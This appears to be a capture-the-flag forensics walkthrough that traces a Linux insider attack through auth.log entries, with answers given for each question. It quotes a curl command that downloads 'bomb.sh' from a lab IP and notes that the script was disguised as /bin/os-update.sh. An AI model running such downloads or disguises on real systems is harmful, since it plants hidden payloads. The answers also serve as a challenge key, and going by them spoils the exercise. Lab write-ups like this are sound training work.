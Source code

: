 ### The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

The first thing we will do is to check the sudo execution history by looking at the auth.log found in the /var/log file path.

cd /var/log
cat auth.log | grep install

## Answer: /usr/bin/apt install dokuwiki 

### What was the present working directory (PWD) when the previous command was run?
![Screenshot 2024-08-14 174323](https://github.com/user-attachments/assets/444efa92-47cf-4560-a761-0d4584d40833)

## Answer: /home/cybert

### 2. Which user was created after the package from the previous task was installed?
 use this command to get answer
 cat auth.log | grep adduser

![Screenshot 2024-08-14 175616](https://github.com/user-attachments/assets/a6ba0e60-9ba0-4131-8da6-30498a94cbf3)

## it-admin

### 3. A user was then later given sudo privileges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

## Dec 28 06:27:34

### A script file was opened using the “vi” text editor. What is the name of this file?
![Screenshot 2024-08-14 180628](https://github.com/user-attachments/assets/e868dd21-bcee-4ec2-a18c-0cbe3e25a8a9)

## bomb.sh

### 5. What is the command used that created the file bomb.sh?
![Screenshot 2024-08-14 191206](https://github.com/user-attachments/assets/0b9b0395-224e-4c77-9912-51b111bbffed)

## curl 10.10.158.38:8080/bomb.sh --output bomb.sh

### 6. The file was renamed and moved to a different directory. What is the full path of this file now?

![Screenshot 2024-08-14 191503](https://github.com/user-attachments/assets/36ab58c9-9ff0-43de-a57b-584ed8463e15)

## /bin/os-update.sh

### 7. When was the file from the previous question last modified? (Format: Month Day HH:MM)

## Dec 28 06:29

### 8. What is the name of the file that will get created when the file from the first question executes?

## goodbye.txt






